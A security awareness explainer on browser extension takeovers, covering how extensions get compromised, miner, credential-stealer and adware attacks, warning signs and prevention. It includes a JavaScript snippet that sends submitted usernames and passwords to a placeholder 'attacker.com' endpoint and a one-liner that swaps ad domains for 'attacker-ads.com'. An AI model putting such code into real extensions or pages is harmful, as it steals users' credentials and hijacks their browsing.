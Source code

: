 <br>

# Browser Extension Takeovers
Browser extension takeovers **occur when malicious actors exploit vulnerabilities or manipulate browser extensions to gain unauthorized access, install malicious scripts, or hijack browser behavior**. These attacks can result in **cryptocurrency mining, credential theft, and adware injection, impacting user security and privacy**.

## 1. How Browser Extension Takeovers Happen
1. **Malicious Extensions**
  - Attackers create or distribute browser extensions containing malicious code.
  - Example
    - An extension claiming to improve performance but secretly mining cryptocurrency.
2. **Compromised Legitimate Extensions**
  - Attackers take control of a trusted extension via:
    - **Developer Account Hijacking**: Compromising the extension developer’s credentials.
    - **Supply Chain Attacks**: Injecting malicious updates into the extension’s source code.
  - Example
    - The “Copyfish” extension was compromised in 2017 after attackers hijacked the developer’s credentials.
3. **Exploiting Permissions**
  - Extensions often request excessive permissions (e.g., full access to websites, clipboard, or storage).
  - Example
    - Extensions requesting  

```
"permissions": ["*://*/*", "storage", "tabs"]
```

4. **Third-Party Libraries**
  - Extensions may rely on third-party libraries that contain vulnerabilities or backdoors.
5. **Browser Updates**
  - Attackers exploit outdated browsers or extensions not patched for security flaws.


## 2. Types of Attacks Using Browser Extensions

### a. Cryptocurrency Miners
  - Inject scripts that silently mine cryptocurrencies like Monero using the victim’s CPU resources.
  - Impact
    - Slows down system performance.
    - Increases energy consumption.
  - Example
    - A malicious extension injects Coinhive scripts to mine cryptocurrency when the browser is active.

### b. Credential Stealers
  - Extensions with access to input fields, cookies, or browser storage steal:
    - Login credentials.
    - Session tokens.
    - Payment information.
  - Techniques
    - Capturing keystrokes or form submissions.
    - Extracting session cookies for account takeovers.
  - Example  

```
document.addEventListener('submit', (e) => {
    fetch('https://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify({ username: e.target.username.value, password: e.target.password.value })
    });
});
```

### c. Adware Injection
  - Extensions inject malicious ads, pop-ups, or redirect traffic to earn revenue from affiliate networks.
  - Impact
    - Alters legitimate website content.
    - Redirects users to phishing or malware-laden websites.
  - Example
    - Replacing ads on example.com with attacker-controlled ads  

```
document.body.innerHTML = document.body.innerHTML.replace(/adnetwork\.com/g, 'attacker-ads.com');
```


## 3. Indicators of Compromised Extensions
1. **High CPU Usage**
  - Sudden spikes in CPU usage, even when idle, could indicate cryptomining.
2. **Unexpected Ads or Pop-Ups**
  - Ads appearing on websites that normally don’t display them.
3. **Unauthorized Behavior**
  - Redirections to unknown websites.
  - Requests for unexpected permissions.
4. **Slow Browser Performance**
  - Compromised or malicious extensions may slow browsing activity due to mining or data exfiltration.
5. **New Unknown Extensions**
  - Extensions you didn’t install appearing in your browser.


## 4. Preventing Browser Extension Takeovers

### a. Limit Extension Permissions
  - **Least Privilege Principle**
    - Only install extensions with minimal permissions necessary for their functionality.
  - **Review permissions like**
    - Access to all sites or Read and change data on all websites.

### b. Use Trusted Extensions
  - Install extensions only from **trusted sources**
    - Chrome Web Store, Mozilla Add-ons.
  - Check user reviews, ratings, and the number of downloads.

### c. Regularly Audit Extensions
  - Periodically review installed extensions and remove unused or suspicious ones.

### d. Enable Automatic Updates
  - Keep both browsers and extensions updated to patch known vulnerabilities.

### e. Monitor Extension Behavior
  - Use tools to analyze extensions
    - CRXcavator: Audits Chrome extensions for risks.
    - Privacy Badger: Blocks trackers and malicious scripts.

### f. Use Security Solutions
  - Implement security tools that:
    - Detect malicious browser extensions.
    - Prevent unauthorized script execution.

### g. Be Cautious of Developer Abandonment
  - Extensions abandoned by developers may get hijacked and updated with malicious code.


## 5. Example Scenario: Malicious Extension Hijacking
1. Original Scenario
  - User installs a legitimate “ad blocker” extension with 5-star reviews.
2. Attack
  - The attacker compromises the developer’s account and pushes a malicious update.
  - The update includes a script to mine cryptocurrency in the background.
3. Result
  - Users experience high CPU usage and slower system performance.
  - Their browser silently connects to an attacker-controlled mining pool.


## 6. Summary

| Attack Type | Description | Impact |
| ----------- | ----------- | ------ |
| Cryptocurrency Miners | Uses CPU power to mine crypto without user consent. | Slows system, increases energy usage. |
| Credential Stealers | Steals passwords, cookies, and tokens via input monitoring. | Account takeovers, data theft. |
| Adware Injection | Injects ads or redirects traffic to malicious sites. | Alters content, phishing, revenue fraud. |

**Browser extension takeovers pose a significant security risk, enabling attackers to inject miners, steal credentials, or display malicious ads**. By carefully managing permissions, auditing extensions, and staying vigilant about unusual behavior, users and organizations can reduce the risk of extension-related attacks. Security awareness and proper hygiene are key to preventing these takeovers.  
<br>
